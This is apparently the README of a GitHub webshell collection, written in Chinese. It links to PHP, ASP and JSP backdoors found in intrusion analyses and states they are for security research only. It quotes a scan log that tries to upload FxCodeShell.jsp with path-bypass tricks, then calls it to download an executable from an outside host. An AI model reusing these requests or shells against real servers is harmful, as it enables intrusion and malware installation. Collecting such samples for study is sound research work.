 # webshell

几乎都是当年乙方入侵分析发现的后门。

- [PHP](https://github.com/JoyChou93/webshell/blob/master/PHP/README.md)
- [ASP](https://github.com/JoyChou93/webshell/blob/master/ASP/README.md)
- [JSP](https://github.com/JoyChou93/webshell/blob/master/JSP/README.md)

该项目的所有内容，只用来安全研究。请勿用作其他用途。

FxCodeShell.jsp 无意发现的，下面是扫我的日志。源码来源)(https://raw.githubusercontent.com/janbkrejci/TSRX/5cf9304f1a37a729ebf1fef23db011a2dce8a5bb/FxCodeShell.jsp%3A%3A%24DATA)
Not Found: /FxCodeShell.jsp 
[16/Mar/2019 13:34:00] "PUT /FxCodeShell.jsp%20 HTTP/1.1" 404 2110
Not Found: /FxCodeShell.jsp::$DATA
[16/Mar/2019 13:34:00] "PUT /FxCodeShell.jsp::$DATA HTTP/1.1" 404 2126
Not Found: /FxCodeShell.jsp/
[16/Mar/2019 13:34:00] "PUT /FxCodeShell.jsp/ HTTP/1.1" 404 2108
Not Found: /FxCodeShell.jsp
[16/Mar/2019 13:34:00] "GET /FxCodeShell.jsp?view=FxxkMyLie1836710Aa&os=1&address=http://fid.hognoob.se/download.exe HTTP/1.1" 404 2185
